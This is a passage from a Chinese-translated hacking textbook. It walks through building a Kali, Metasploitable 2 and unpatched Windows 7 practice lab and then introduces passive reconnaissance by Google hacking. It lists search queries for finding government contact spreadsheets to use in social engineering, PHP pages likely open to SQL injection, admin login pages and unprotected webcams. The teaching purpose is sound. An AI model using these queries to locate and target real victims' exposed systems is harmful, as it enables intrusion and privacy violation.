

使用键盘按键导航菜单。

如果在 VirtualBox 中安装 Kali 时遇到错误，很可能是因为你的系统 BIOS 中未启用虚拟化功能。不同系统和其 BIOS 配置略有差异，请咨询你的硬件制造商或在线搜索针对你系统和 BIOS 的解决方案。此外，在 Windows 系统上，你通常还需要禁用任何竞争的虚拟化软件，例如 Hyper-V。

同样，针对你的系统进行一次网络搜索就能指导你完成上述操作。

接下来，系统会要求你选择语言。请确定选择你最熟悉的语言，然后点击`继续`。接着，选择你的位置，点击`继续`，然后选择你的键盘布局。

当你点击`继续`时，VirtualBox 将开始检测你的硬件和网络适配器。请耐心等待其完成。最终，你将看到如下图所示的屏幕，要求你配置网络。




它询问的第一项是你的主机名。你可以随意命名，但我保留了默认的“Kali”。

接下来，系统会要求输入域名名。这里没有输入的必要。点击`继续`。下一个屏幕非常重要。在这里，你需要输入要为 `root` 用户设置的密码。

在 Linux 中，`root` 用户是全能的系统管理员（sysadmin）。你可以使用任何你觉得安全的密码。如果这是一台连接互联网的物理系统，我建议你去使用一个非常长且复杂的密码，以限制攻击者破解它的 ability。由于这是一个虚拟机，没有通过访问你的主机操作系统就无法访问，因此这个虚拟机上的密码认证并不那么重要，但仍需慎重选择。

点击`继续`，你会被要求设置时区。完成后继续即可。

下一个屏幕询问关于磁盘分区。选择`引导式 – 使用整个磁盘`，Kali 将检测你的硬盘并自动设置分区器。

随后，Kali 会警告你所选磁盘上的所有数据都将被擦除……但别担心！这是一个虚拟磁盘，且该磁盘是新的、空的，所以这实际上不会产生任何影响。点击`继续`。

接下来，Kali 会询问你是否希望将所有文件放在一个分区（分区就是听起来那样——你硬盘的一个部分或片段），还是希望拥有独立的分区。如果这是一套生产系统，你可能会为 `/home`、`/var` 和 `/tmp` 选择独立的分区，但考虑到我们将把它作为虚拟环境中的学习系统，你应该只需选择`所有文件在一个分区`。

现在，系统会询问是否将更改写入磁盘。选择`完成分区并将更改写入磁盘`。Kali 会再次提示你确认是否要将更改写入磁盘；选择`是`并点击`继续`。



Kali 现在开始安装操作系统。这可能需要一段时间，请保持耐心。现在是时候去休息一下，喝杯你喜欢的饮料了。

安装完成后，系统会提示你是否要使用网络镜像。

这其实并不是必需的，但你可能会想选择一个位于你物理位置附近的网络镜像，用于更新和额外软件。

然后 Kali 会安装 GRUB（全局统一引导加载器）。引导加载程序允许你选择不同的操作系统进行启动，这意味着当你启动机器时，可以选择启动 Kali 或其他操作系统。选择`是`。随后 Kali 将安装 GRUB 引导加载程序。

在下一个屏幕中，系统会询问你是希望自动还是手动安装 GRUB 引导加载程序。出于尚不清楚的原因，如果你选择第二个选项，Kali 在安装后往往会出现挂起并显示空白屏幕的情况。选择`手动输入设备`。

在接下来的屏幕中，选择应安装 GRUB 引导加载程序的驱动器（通常是类似 `/dev/sda` 的东西）。`与 Windows 不同，Linux 将硬盘指定为 sda、sdb 等。更多信息请参阅《Linux Basics for Hackers》`。继续点击到下一个屏幕，该屏幕应告知你安装已完成。

恭喜！你成功安装了 Kali。点击`继续`。Kali 将尝试重新启动，你会看到一系列代码行在黑色空白屏幕上滚动，最终**你将看到 Kali 2019 的登录界面**，如下图所示。





以 `root` 身份登录，系统会要求输入密码。输入你为 root 用户选择的密码。

使用密码以 root 身份登录后，你将看到如下图所示的 Kali Linux 桌面。

## 安装目标系统

在本书中，我们将关注两个目标系统：Metasploitable 2，一个故意存在漏洞的 Linux 系统，以及 Windows 7。要下载和安装 Metasploitable 2，请前往 [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)。下载完成后，只需按照上述 Kali 的安装步骤安装你的 Metasploitable 2。Metasploitable 2 的登录凭据为用户名：`msfadmin` 和密码：`msfadmin`。


### 创建虚拟机

**名称和操作系统**

| 参数 | 值 |
| :--- | :--- |
| 名称 | Windows 7 Target |
| 机器文件夹 | `C:\Users\OTW\VirtualBox VMs` |
| 类型 | Microsoft Windows |
| 版本 | Windows 7 (64-bit) |

**内存大小**

4 MB - 16384 MB

*默认*：2048 MB

**硬盘**

- 不添加虚拟硬盘
- 立即创建虚拟硬盘
- 使用现有的虚拟硬盘文件

`Kali 2019.vdi` (Normal, 26.67 GB)

- 引导模式
- 创建
- 取消




安装 Windows 7 则稍微复杂一些。为了让你能够全面参与我们在 Windows 7 上的练习，你需要一个未打补丁的 Windows 7 系统。也许你在家里、学校或办公室附近就有。

如果没有，你可以在互联网上搜索，找到许多可下载的副本。将其安装到你的 VirtualBox 系统中，就像上面安装 Kali 一样。

最终，你将看到熟悉的 Windows 7 登录界面。

最后，我们还需要在 Windows 7 系统上安装 MySQL。前往 www.oldapps.com 搜索 Windows 应用程序。进入 MySQL 服务器页面，下载并安装 MySQL v5.5.1。




安装 Windows 版 MySQL 后，你需要打开 MySQL 终端（进入**程序**然后点击**MySQL**）以创建我们的测试数据库，并使用以下命令填充数据库。

```sql
CREATE DATABASE `moviedb`;
CREATE TABLE `creditcards` (
  `id` varchar(20) DEFAULT NULL,
  `first_name` varchar(50) DEFAULT NULL,
  `last_name` varchar(50) DEFAULT NULL,
  `expiration` date DEFAULT NULL
);
ALTER TABLE `creditcards` DISABLE KEYS;
INSERT INTO `creditcards` VALUES
  ('001','Tom','Hanks','0000-00-00'),
  ('002','Sandra','Bullock','0000-00-00'),
  ('003','Alan','Rickman','0000-00-00');
CREATE TABLE `stars` (
  `id` int(11) NOT NULL,
  `first_name` varchar(50) DEFAULT NULL,
  `last_name` varchar(50) DEFAULT NULL,
  `dob` date DEFAULT NULL,
  `photo_url` varchar(200) DEFAULT NULL,
  PRIMARY
```

恭喜！你已准备好踏上一段“千里之行”的旅程。请对自己保持耐心，你不可能一夜之间就成为黑客大师，但你已经在这段旅程中迈出了至关重要的第一步。

# 5

# 被动侦察

***“仔细且专注地”倾听你的敌人；他们会告诉你击败他们所需的一切信息*** **《黑客大师》**

**许多踏上成为黑客大师之路的人**往往低估了信息收集或侦察的必要性。这些新手（我并非用这个词来贬低，而是作为一种描述。我们所有人最初都是新手）急于直接攻击目标系统。而黑客大师明白，他们对目标了解得越多，成功的可能性就越大。正如我在第 3 章关于“黑客流程”中提到的，侦察工作可能占据整个项目时间的 90%，在某些情况下甚至可能耗时数月。

本章将重点讨论如何从公开可用的来源收集关于目标的信息。这些技术通常被称为“被动侦察”，因为黑客在不与目标进行交互的情况下收集信息。有些人也将其称为开源情报（OSINT）。所有信息均来自已收集关于目标信息的第三方来源。


你在这一阶段收集的信息取决于目标。如果目标是网站，你希望尽可能了解该网站背后的技术。如果目标是域名，你希望尽可能了解该域名的情况。如果目标是一个人，你希望尽可能多地了解此人的信息。

由于不可能包含所有的被动侦察技术，我们将仅在此列举其中几种：

- 1. Google 黑客攻击
- 2. Netcraft
- 3. Shodan
- 4. DNS
- 5. p0F

如需获取更多被动侦察技术，请访问 `www.hackers-arise.com/osint`。

## 黑客攻击 Google

众所周知，Google 运营着地球上使用最广泛的互联网搜索引擎。Google 爬取几乎每个网站中的每一个网页，并构建了一个包含其收集的所有信息的庞大数据库。大多数人随后使用 Google 的数据库，通过`关键词`搜索与其查询主题相关的文章。然后，Google 根据其算法（PageRank 算法，以 Google 联合创始人之一 Larry Page 命名）检索最相关的网站，该算法会对文章进行优先级排序。

很少有人知道的是，Google 拥有特定的关键词和操作符，可以帮助你从这个非凡的数据库中提取精确信息。作为黑客，Google 数据库可能提供有关潜在目标的信息，这些信息可能极具价值，甚至包括密码。

让我们来看一下其中一些关键词及其功能。

**Google 黑客攻击关键词** 请注意，`Google` 的关键词需要在关键词和搜索词之间加一个冒号(:)，例如 `intitle:hackers-arise`。

虽然远非详尽无遗，但以下是一些使用更广泛的 Google 关键词：

### `allinanchor`

如果你使用 `allinanchor` 关键词，Google 会将你的搜索限制在锚点（anchor）中包含你寻找的**所有**术语的网页上。

### `allintext`

如果你使用 `allintext` 关键词，Google 会将你的搜索限制在页面文本中包含你指定的**所有**搜索术语的页面上。

### `allintitle`

如果你使用 `allintitle` 关键词，Google 会将你的搜索限制在页面标题中包含你指定的**所有**搜索术语的页面上。

### `allinurl`

如果你使用 `allinurl` 关键词，Google 会将你的搜索限制在页面 URL 中包含你指定的**所有**搜索术语的页面上。

### `filetype`

如果你使用 `filetype` 关键词，Google 会将你的搜索限制在拥有你指定文件类型的页面上。例如，要搜索 Adobe PDF 文件，你可以使用 `filetype:pdf`。

### `inanchor`

如果你使用 `inanchor` 关键词，Google 会将你的搜索限制在页面锚点中包含你指定搜索术语的页面上。

### `intext`

如果你使用 `intext` 关键词，Google 会将你的搜索限制在页面文本中包含你指定搜索术语的页面上。

### `intitle`

如果你使用 `intitle` 关键词，Google 会将你的搜索限制在页面标题中包含你指定搜索术语的页面上。

### `inurl`

如果你使用 `inurl` 关键词，Google 会将你的搜索限制在页面 URL 中包含你指定搜索术语的页面上。

### `link`

当你使用 `link` 关键词后跟 URL 时，Google 会显示所有链接回指定 URL 的网站。

### `site`

如果你使用 `site` 关键词，Google 会将你的搜索限制在你指定的网站或域名上。

## Google 黑客攻击示例

让我们看看一些示例，了解如何使用 Google 黑客攻击技术查找相关的网站和文件。

你知道，许多公司将重要的财务和其他信息存储在 Excel 文件中。我们可以使用一个简单的 Google 黑客攻击技巧来查找 Excel 文件类型，“.xls”或“.xlsx”。

```
filetype:xls
```

我们可以更有选择性地行动，结合 Google 关键词，在政府网站（通过使用关键词 `site` 和顶级域名 `.gov`）中寻找 URL 中包含“contact”（联系）一词的 Excel 文件。这将产生包含政府机构联系人列表的网页，对于社会工程学来说可能是一个潜在的宝库（有关“社会工程学”，请参阅第 17 章）。

```
filetype:xls site:.gov inurl:contact
```

**搜索结果示例：**

- Web
- Images
- Videos
- Maps
- Books
- More
- Search tools

约 377 个结果（0.27 秒）

1. **[XL9] HRD Contact - Mass.Gov**

   `www.mass.gov/anf/docs/hrld/modules/hrld-contact.xls`

   > Massachusetts > A, B, C, 1, Telephone: 2, 3, (617) 727-3555 (HRD Main Office), 4, 1-800-392-6178 (Toll Free Number), 5, (617) 878-9762 (TTY), 6, 7, Fax Number: View unit Fax ...

2. **[XL9] 2015 Agency Contact Directory - Oregon.gov**

   `www.oregon.gov/...2015%20Agency%20Contact%20Directory...`

   > Oregon > A, B, C, D, E, F, G, 1, Agency, Name, E-mail Address, Title, Phone, Address, City/ State/Zip, 2, Accountancy, State Board of, Prittoni, Martin ...

3. **[XL8] District Preschool Contact.xls**

   `education.ky.gov/educational/pre/.../District%20Preschool%20Contact...`

   > A, B, C, D, E, F, G, H, I, J, K, 1, DISTRICT, RTC, Preschool Coordinator Name, Street Address, City, Zip Code, Email Address, Phone Number, Fax.

4. **[XL5] H1N1 Supplemental Contact Follow-up Form - State of ...**

   `www.cdph.ca.gov/.../Supplement...`

   > California Department of Public Health > A, B, C, D, E, F, G, H, I, J, K, L, M, N, O, 1, Total number of household, intimate and daycare/childcare contacts since the case's first day of symptom onset ...

5. **[XL5] National School Lunch Program Public Contact List**

   `www.doe.in.gov/sites/default/files/.../nslp-public-contact-list.xls`

   > Indiana > A, B, C, D, E, F, G, H, I, J, K, L, M, N, O, P, 1, TYPE, CONO, CONA, CDPB, NAME, PUBPRIV, SALU, FIRSTNME, LASTNME, TITLE, ADDRESSEE, ADDR1 ...

6. **[XL5] CACFP Public Contact List - Indiana Department of Educ...**

   `www.doe.in.gov/sites/default/files/.../cacfp-public-contact-list.xls`

   > Indiana > A, B, C, D, E, F, G, H, I, J, K, L, M, N, O, P, 1, TYPE, CONO, CONA, SPONSORBR, SPONSORNME, PUBPRIV, SALU, FIRSTNME, LASTNME, TITLE ...

7. **[XL5] Contact List.xls**

   `ftp://ftp.cdc.gov/.../...`


> United States Centers for Disease Control and Prevention > A, B, C, D, E, F, G, H, I, J, K, L, 1, Report of Verified Case of Tuberculosis Training Contact List of Participants, Observers, and Facility <Insert Date>, 2, Course ...

显示 `inurl:index.php?id=` 的搜索结果

改为搜索 `finurl.index.php?id=`

**SSM e-Info 版本 2.9 - 登录（在 IE7 & Mozilla 下查看效果最佳）** ...

`https://www.ssm-einfo.my/index.php?id=login`▾

首页 · 我的电子账户。我们的产品。公司简介。产品概览 · 示例。商业概况。产品概览 · 示例。金融比较（FIN）。

**贝勒大学 || 贝勒大学研究生院**

`https://www.baylor.edu/graduate/../index.php?id=9964...`▾ 贝勒大学 ▾

登录。使用您的 GoBAYLOR 个人资料电子邮件和密码登录您的 GoBAYLOR 申请仪表盘。使用 GoBAYLOR 仪表盘开始申请 ...

**Hark, a vagrant: 331**

`www.harkavagrant.com/index.php?id=331` ▾ Kate Beaton ▾

大家新年快乐！只是随便画了些图 ... 自行车的发明以及女性开始骑行的最大意义在于：...

**Hark, a vagrant: 311**

`www.harkavagrant.com/index.php?id=311` ▾ Kate Beaton ▾

这部漫画由 Carly Monardo、Meredith Gran 和我某天晚上构思而成。我们是娱乐行业的专业人士，我们认为我们知道 ...

**补助金额计算模拟器 - 部门** ...

`www.messrs.gouv.qc.ca/index.php?id=1525`

由于该站点的 robots.txt 文件，无法提供此结果的描述 – 了解更多。

如果我要查找包含电子邮件地址的 Excel 文件，我可能会使用以下内容：`filetype:xls inurl:email.xls` 许多 PHP 应用程序容易受到 SQL 注入（参见第 12 章）和其他攻击的影响。我们可以使用以下内容查找这类 Web 应用程序：`inurl:index.php?id=`

第 51 页


其他可能产生有趣结果的 Google 黑客技巧包括：`intitle:"site administration:please log in"`

如果我在进行社会工程攻击并想收集关于目标的有效信息，我可能会使用：`intitle:"curriculum vitae" filetype:doc` 有效地找到未受保护的摄像头是 Google 黑客技巧中更有趣的一个方面。以下列表展示了一些用于查找易受攻击摄像头的有效黑客技巧：`allintitle: "Network Camera NetworkCamera"` `intitle:"EvoCam"` `inurl:"webcam.html"` `intitle:"Live View / - AXIS"` `intitle:"LiveView / - AXIS"` | `inurl:view/view.shtml` `inurl:indexFrame.shtml` `"Axis Video Server"` `inurl:axis-cgi/jpg` `inurl:"MultiCameraFrame?Mode=Motion"` `inurl:/view.shtml` `inurl:/view/index.shtml` `"mywebcamXP server!"`







Google 黑客技巧数不胜数，有些人，如 Johnny Long，专门开发有效的 Google 黑客技巧。Long 撰写了两本关于该主题的优秀书籍。另一个获取 Google 黑客技巧的良好来源是位于 [www.exploit-db.com](http://www.exploit-db.com) 的漏洞数据库。如果您访问该网站并点击屏幕左侧的 GHDB 标签，我们可以找到最新的 Google 黑客技巧。

当我们点击 GHDB 标签时，它会打开：在这里我们可以找到数千个 Google 黑客技巧。有些比其他更有效。

第 53 页

